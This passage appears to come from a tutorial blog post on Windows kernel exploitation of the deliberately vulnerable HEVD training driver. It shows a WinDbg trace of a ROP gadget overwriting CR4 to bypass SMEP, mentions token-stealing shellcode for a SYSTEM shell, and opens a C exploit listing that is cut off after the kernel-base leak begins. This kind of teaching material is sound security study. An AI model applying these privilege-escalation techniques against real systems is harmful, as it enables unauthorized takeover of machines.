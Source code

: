 ```asm title="Bypassing SMEP"
fffff805`820a0a52 c3              ret

1: kd> r
rax=0000000000000000 rbx=0000000000070678 rcx=0000000000070678 /* (1) */
rdx=0000467ddeabe610 rsi=fffff805823a41e3 rdi=0000000041414141
rip=fffff805820a0a52 rsp=ffffb98221b417a8 rbp=ffffe58cd6bfdcd0
 r8=0000000000000000  r9=0000000000000000 r10=fffff80587e85078
r11=ffffb98221b41780 r12=4141414141414141 r13=0000000000000000
r14=4141414141414141 r15=4141414141414141
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246

nt!HvCheckBin+0xe2:
fffff805`820a0a52 c3              ret

1: kd> p
nt!KiEnableXSave+0xb53f:
fffff805`823a41e3 0f22e1          mov     tmm,rcx

1: kd> p
nt!KiEnableXSave+0xb542:
fffff805`823a41e6 c3              ret

1: kd> r cr4
cr4=0000000000070678
```

1. Pay attention to the value in RCX here.
2. This denotes excluded instructions. It isn't important.


As you can see in the above output from WinDbg we **set a breakpoint on the memcpy** then we step through the program until the return, at the return we can clearly see that our `pop rcx` gadget is executed and then the value `70678` is placed in the RCX register. If we continue stepping we then see that value being written into the CR4 register thus allowing us to bypass SMEP. All that's left for us to do now is to allocate some space in user land, fill it with shellcode and get a system shell.

I'll leave this part for you to do based on whatever build of Windows you're on. I'm on RS1 in this post so I used a well known shellcode (got it from [here](https://github.com/connormcgarr/Kernel-Exploits/blob/master/HEVD/Stack%20Overflow/Windows10_StackOverflow.c) thanks Conor :smile:) which loops over processes and does a comparison between the current PID vs the SYSTEM PID until the SYSTEM PID is found. 

<hr>

# Final Exploit 

You can find my full exploit below. Or scroll down to open it on GitHub. Thanks for reading!

```C title="Final Exploit"
#include <Windows.h>
#include <stdio.h>
#include <Psapi.h>

#define DRIVER "\\\\.\\HacksysExtremeVulnerableDriver"
#define IOCTL_CODE 0x222003

unsigned long long GetKernelBase(void)
{

    LPVOID  lpImageBase[1024];
    DWORD   lpcbNeeded;

    /* Get base address of first driver (ntoskrnl.exe) */
```

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.